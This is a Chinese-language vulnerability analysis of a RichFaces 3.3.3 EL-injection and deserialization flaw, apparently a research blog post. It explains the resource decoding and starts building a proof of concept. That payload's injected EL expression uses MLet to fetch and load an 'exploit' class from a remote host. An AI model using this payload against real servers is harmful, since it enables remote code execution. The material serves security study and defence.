 以RichFaces官方的[richfaces-demo (3.3.3 Final)](http://richfaces.jboss.org/demos)进行调试，下载war包并启动tomcat，在Ajax Output->Media Outpput菜单可触发UserResource请求，随便使用数字替换请求中的资源数据请求：

```
http://127.0.0.1:8080/richfaces-3.3.3.Final/a4j/s/3_3_3.Finalorg.ajax4jsf.resource.UserResource/n/s/-1487394660/DATA/123.jsf
```
response：
![4de874f4.png](https://i.loli.net/2018/11/15/5bed1f68b97f8.png)
查看ResourceBuilderImpl.decrypt函数可知richfaces对资源数据先进行了base64解码，然后使用DEFLATE解压缩

```java
protected byte[] decrypt(byte[] src) {
		try {
      //decode 方法调用：URL64Codec.decodeBase64，并且替换了+等几个特殊字符
			byte[] zipsrc = codec.decode(src);
			Inflater decompressor = new Inflater();
			byte[] uncompressed = new byte[zipsrc.length * 5];
			decompressor.setInput(zipsrc);
			int totalOut = decompressor.inflate(uncompressed);
			byte[] out = new byte[totalOut];
			System.arraycopy(uncompressed, 0, out, 0, totalOut);
			decompressor.end();
			return out;
		} catch (Exception e) {
			throw new FacesException("Error decode resource data", e);
		}
	}
```
所以利用该漏洞需要先构造包含EL表达式的UriData序列化对象，然后再将数据DEFLATE压缩，最后再进行base64编码。

#### POC构造

POC构造可参考tint0的文章[When EL Injection meets Java Deserialization](https://tint0.com/when-el-injection-meets-java-deserialization/)给出的利用方式进行构造，构造特殊的UriData对象，因为首先处理的是modified值，所以这里将modified的值设置为 javax.faces.component.StateHolderSaver对象，而该对象的savedState字段为ValueExpressionImpl对象，ValueExpressionImpl 对象的 expr 字段为注入的el表达式，形如：

```txt
Ljava.lang.Object[UriData]
 [0] = (value) null
 [1] = (createContent) null
 [2] = (expires) null
 [3] = (modified) javax.faces.component.StateHolderSaver
   savedState = (org.apache.el.ValueExpressionImpl)
     expr = (java.lang.String) "${a="".getClass().forName("javax.management.loading.MLet").newInstance();a.addURL("http://192.168.1.5:8314/exploit");a.loadClass("exploit",null)}"
     node = (Node) null
     FunctionMapper = (FunctionMapper) null
     VariableMapper = (VariableMapper) null
     expectedType = (expectedType) null
```
这里StateHolderSaver构造函数第一个参数为FacesContext是抽象类，无法实例化，所以无法通过反射调用构造函数创建javax.faces.component.StateHolderSaver对象，这里可以使用[Objenesis](http://objenesis.org)不使用构造函数创建对象：
